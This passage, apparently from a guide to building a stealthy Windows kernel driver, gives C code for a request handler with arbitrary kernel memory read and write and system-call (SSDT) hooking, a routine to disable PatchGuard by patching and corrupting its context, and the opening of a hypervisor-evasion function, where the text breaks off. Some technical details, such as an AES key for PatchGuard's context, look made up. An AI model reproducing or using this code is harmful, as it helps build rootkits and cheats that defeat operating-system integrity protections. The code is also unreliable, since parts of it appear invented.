 ```c
    SecureRequest* req = (SecureRequest*)commBuffer;
    
    // 1. Validate HMAC-SHA256
    if(!VerifyHmac256(req, req->hmac, HMAC_KEY)) {
        TriggerBlueScreen(); // Misdirection
        return;
    }
    
    // 2. Anti-replay nonce check
    if(GetNonceCounter() != req->nonce) {
        InvalidateSession();
        return;
    }

    // 3. Process validated request
    switch(req->command) {
        case CMD_READ_MEM:
            SecureReadWrapper(req->address, req->size);
            break;
        case CMD_WRITE_MEM:
            SecureWriteWrapper(req->address, req->value, req->size);
            break;
        case CMD_HOOK_SSDT:
            HookSystemCalls(req->address);
            break;
    }
    
    // 4. Update nonce and re-encrypt
    UpdateNonce();
    EncryptBuffer(req, sizeof(SecureRequest), COMMS_AES_KEY);
}
```

---

### **2. Hardware-Level Anti-Detection**
**Implementation**:
```c
// Advanced PatchGuard dismantling
void DisablePatchGuard() {
    // 1. Locate PG context using pattern scan
    uintptr_t pgCtx = FindPgContext(
        "\x48\x8B\x05\x00\x00\x00\x00\x48\x85\xC0\x74\x00\x8B\xD6", 
        "xxx????xxxx?x"
    );
    
    // 2. Decrypt context structure
    AesDecrypt((void*)pgCtx, PG_CONTEXT_SIZE, PG_AES_KEY);
    
    // 3. Neutralize components
    PatchMemory(pgCtx + PG_DPC_OFFSET, RET_OPCODE, 1);
    PatchMemory(pgCtx + PG_TIMER_OFFSET, 0x90, 6); // NOP loop
    
    // 4. Corrupt verification data
    memset(pgCtx + PG_HASH_OFFSET, 0, PG_HASH_SIZE);
    
    // 5. Re-encrypt context
    AesEncrypt((void*)pgCtx, PG_CONTEXT_SIZE, PG_AES_KEY);
}

// Hypervisor detection evasion
void EvadeHypervisors() {
    // Spoof CPUID hypervisor bits
```
